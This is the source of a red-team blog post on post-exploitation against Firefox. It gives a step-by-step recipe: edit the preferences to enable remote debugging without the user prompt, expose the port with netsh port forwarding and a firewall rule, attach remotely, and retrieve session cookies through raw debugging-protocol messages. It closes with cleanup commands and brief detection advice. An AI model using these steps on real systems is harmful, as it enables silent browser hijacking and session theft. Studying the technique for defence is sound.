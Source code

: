 ```yaml
---
title: "Post-Exploitation: Remote controlling Firefox and accessing cookies"
date: 2020-04-21T18:18:51-07:00
draft: true
---
```


Previously we have discussed how to enable remote debugging on Chrome, and how to connect to it and inspect sessions during post-exploitation. The main goal for red teamers to do this typically to gain access to authentication tokens. 
Today, let's discuss how remote debugging works with Firefox. 

Unlike Chrome, Firefox disables this feature by default.

So first, during post-exploitation one has to enable it accordingly by updated the user.js file (or prefs.js).

<UPDATE>
$AppData\Roaming\Mozilla\Firefox\Profiles\6yo6s4cs.default-release\prefs.js

These are the updates that are required:

```
user_pref("devtools.chrome.enabled", true);
user_pref("devtools.debugger.remote-enabled", true);
user_pref("devtools.debugger.prompt-connection", false);
```

This will enable the remote debugging features, and also disable any security prompts the user would normally see by default.

You can find the corresponding settings under Development Settings:
    ![Security Settings](/blog/images/2020/firefox.debug.settings.png)

And this is how the security prompt would look like that we disabled:
    ![Security Prompt](/blog/images/2020/firefox.debugger.permission.png)


After that we can launch a new instance of Firefox using:

``` & 'C:\Program Files\Mozilla Firefox\firefox.exe' -start-debugger-server 9222 ```

There are also the options for ```--headless``` and so forth that you can experiment around with.

This is how it looks like:

![PowerShell run Firefox with remote debugging](/blog/images/2020/firefox.debugger.running.png)

As you can see, this only listens on the local interface.

### Tunneling traffic to the attacker

The debugging port is only available locally now, an adversary will try to make that remotely accessible via port forwarding. 

**Important: This traffic is sent in clear text, so be aaware and consider using ssh port forwarding to encrypt traffic. This example is for research purposes.**

In Windows, this can be done by an Administrator using the ```netsh interface portproxy``` command. 

The following command shows how this is performed:

```netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=48333 connectaddress=127.0.0.1 connectport=9222``` 

Now, remote connections to this port will not be allowed because the firewall blocks them (we forwarded to port 48333). We have to add a new firewall rule to allow port 48333. So, let's allow that port through the firewall. 

There are multiple ways to do this on Windows (we focus on Window now, but all this should also work on macOS and Linux):

1. Use netsh to add a new firewall rule:

    ```netsh advfirewall firewall add rule name="Open Port 48333" dir=in action=allow protocol=TCP localport=48333```
2. On modern Windows machines, this can also be done via PowerShell commands:

    ``` New-NetFirewallRule -Name FirefoxRemote -DisplayName "Open Port 48333" -Direction Inbound -Protocol tcp -LocalPort 48333 -Action Allow -Enabled True     ``` 

Now, it is all setup to connect to from another machine.

## Debugging remote Firefox instances

Now that we have the debugging port exposed remotely, we can attach Firefox on our "attack" machine to it. Let's walk through the steps on how this works:

1. Navigate to about:debugging in the browser URL (or click Web Developer Tools - Remote Debugger). This is where you can connect to remote devices runnning Firefox. Click "Add" to add a new server to connect to.

    ![Adding a new remote server](/blog/images/2020/firefox.debugger.remoteadd.png)

2. It is also possible to add  multiple debug server as seen in this screenshot. This basically allows to have a mini C2 to remote control multiple browsers. 

    ![Connecting to multiple debug servers](/blog/images/2020/firefox.debug.connect.multiple.png)

3. Use the ```Connect``` button to connect to a particular browser instance. Once connected you can run commands in the console, navigate the user to a different page, and also inspect storage and cookies as seen in the following screenshot.

    ![Inspecting Cookies remotely](/blog/images/2020/firefox.debugger.remotecookies.png)

That's it, all pretty cool I think :)

## Automating retrieval of cookies

I have not yet spent much time to research the protocol to script automatic retrieval of cookies. 

The protocol is documented [here](https://docs.firefox-dev.tools/backend/protocol.html).

And soon there will be a Firefox API Network.getAllCookies()  (LINK here to Bugzilla entry) that will make this very easy - similar to how it works today in Chrome via Cooke Crimes.

The default protocol is a simple one, it consists of sending ```length:JSONREQUEST```.

Connect via telnet or netcat, and send the following strings in:

``` 30:{"type":"getRoot","to":"root"} ```

These steps are what I needed to retrieve cookies from a particular site:

```
31:{"to":"root","type":"listTabs"}
57:{"type":"getTarget","to":"server1.conn21.tabDescriptor7"}
65:{"type":"listStores","to":"server1.conn21.child21/storageActor5"}
124:{"type":"getStoreObjects","host":"https://www.google.com","names":null,"options":{},"to":"server1.conn21.child21/cookies20"}
```

The identifiers for connections and actors change everytime, so this needs a little scripting to automate completely, but shouldn't be difficult to do. 


## Cleaning up and reverting changes 

Keep in mind that port forwarding was set up earlier to enable the remote exposure of the Firefox debugging API on port 48333. In order to remove port forwarding and revert to the defaults, we can run  the following command: 

```netsh interface portproxy reset```

Alternatively, there is a delete argument. 

The same applies for opening port 48333. The firewall rule can be removed again using the following command:

``` netsh advfirewall firewall del rule name="Open Port 48333" ```

or if you used the PowerShell example:

``` Remove-NetFirewallRule -Name FirefoxRemote ```


## Detections and Mitigations

* Blue teams should look for anyone using the **-start-debugger-server ** and related features to identify potential misuse. Be aware on Linux/macOS the argument is --start-debugger-server
* Similarly, observe and monitor for port forwarding on hosts

## Red Team Strategies

If you liked this post and found it informative or inspirational, you might be interested in the book ["Cybersecurity Attacks - Red Team Strategies"](https://www.amazon.com/Cybersecurity-Attacks-Strategies-practical-penetration-ebook/dp/B0822G9PTM). It is filled with more ideas, research and fundamental techniques, as well as red teaming program and people mangement aspects.


Hope this was informative and useful. And as always, only perform pentesting with authorization from proper stakeholders. Do not break the law.


## References
* [Firefox Remote Debugging Protocol](https://docs.firefox-dev.tools/backend/protocol.html).
* [MITRE ATT&CK Technique T1539: Steal Web Session Cookie](https://attack.mitre.org/techniques/T1539/)
* [MITRE ATT&CK Technique T1506: Web Session Cookie](https://attack.mitre.org/techniques/T1506/)


